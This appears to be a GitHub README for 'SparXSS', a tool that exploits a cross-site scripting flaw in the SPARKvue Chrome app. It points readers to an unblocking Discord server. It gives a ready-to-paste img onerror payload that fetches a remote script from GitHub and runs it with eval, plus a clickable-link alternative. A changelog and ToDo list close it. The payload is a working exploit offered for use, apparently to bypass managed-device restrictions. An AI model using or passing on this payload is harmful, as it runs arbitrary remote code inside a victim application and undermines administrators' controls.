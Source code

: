 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue Chrome App XSS Vulnerability Found By ohonbob
The full guide to access the vulnerability is in the Titanium Network Discord Server: <a target="_blank" href="http://discord.gg/unblock">discord.gg/unblock</a>
<a href="http://stackoverflow.com" target="_blank">Go</a>

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```
Or make it a clickable link:
```
<a href="https://amukerd.github.io/SparXSS">Click Me!</a>
```

## [Changelog](https://github.com/Amukerd/SparXSS/blob/main/Changelog.md)

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
- ~~Make the links save without having to manually click the textbox where the script is~~
